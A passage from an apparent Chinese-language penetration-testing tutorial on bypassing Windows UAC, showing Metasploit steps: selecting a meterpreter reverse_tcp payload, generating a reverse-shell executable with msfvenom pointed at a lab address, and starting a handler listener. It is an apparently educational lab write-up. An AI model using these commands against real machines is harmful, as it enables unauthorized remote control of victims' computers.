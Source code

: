 ![成功添加](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410301015346.png)

## 四、Bypass UAC

### 1. 使用msf-bypassuac模块

#### (1). 前期准备

1. 启动msf,kali中命令行输入`msfconsole`

   ![启动msf](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281515694.png)

2. 选择反弹shell模块

   ```
   use payload/windows/meterpreter/reverse_tcp
   ```

   ![选择反弹shell模块](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281609111.png)

3. 设置监听主机和端口

   ```
   set LHOST <你的IP>
   set LPORT <监听端口>
   ```

   ![设置监听](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281611700.png)

4. 生成可执行文件

   ```cmd
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.71.50 LPORT=4444 -f exe -o shell.exe
   
   #如果不在桌面上，可以用指令查找位置
   find / -name shell.exe 2>/dev/null
   
   ```

   ![生成可执行文件](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281612860.png)

   ![可执行文件](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281617066.png)

5. 重新设置监听器，启动监听

   ```
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 192.168.71.50
   set LPORT 4444
   exploit
   ```

   ![启动监听](https://minioapi.laffrex.top/laffrex/pictures/2024/10/28/202410281623853.png)
